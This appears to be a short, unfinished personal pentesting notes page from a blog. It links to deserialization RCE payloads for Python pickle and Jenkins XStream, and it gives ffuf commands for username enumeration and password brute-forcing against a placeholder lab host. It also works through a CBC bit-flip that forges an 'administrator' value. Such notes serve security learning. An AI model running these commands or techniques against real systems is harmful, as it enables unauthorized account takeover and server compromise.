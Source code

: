 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


WIP
<!--more-->

<h2 id="serializations">Serialization</h2>
<h6 id="python-serialization">Python</h6>
<a href="https://github.com/allenjedb/allenjedb.github.io/blob/main/assets/stuff/Serializations/python-pickle.txt">Python cPickle</a>


<h6 id="jenkin-serialization">Serialization Issue Jenkins -XStream</h6>
<p>remote code execution on the server hosting Jenkins.</p>
<p>Example xml payload using groovy library</p>
<a href="https://github.com/allenjedb/allenjedb.github.io/blob/main/assets/stuff/Serializations/Jenkins-groovy.txt">Jenkins-groovy payload</a>
<p>has a metasploit module</p>


<h2 id="brute-forcing">BruteForcing</h2>
<h6 id="ffuf">FFUF</h6>
<code>ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"</code>    

 <code>ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
</code>       


<h2>cbc - user IRB in terminal</h2>
<p>cdministrator -- administrator</p>
<code>0x75^'a'.ord^'c' == 119</code>
<code>"%2x" % 119 == 77</code>
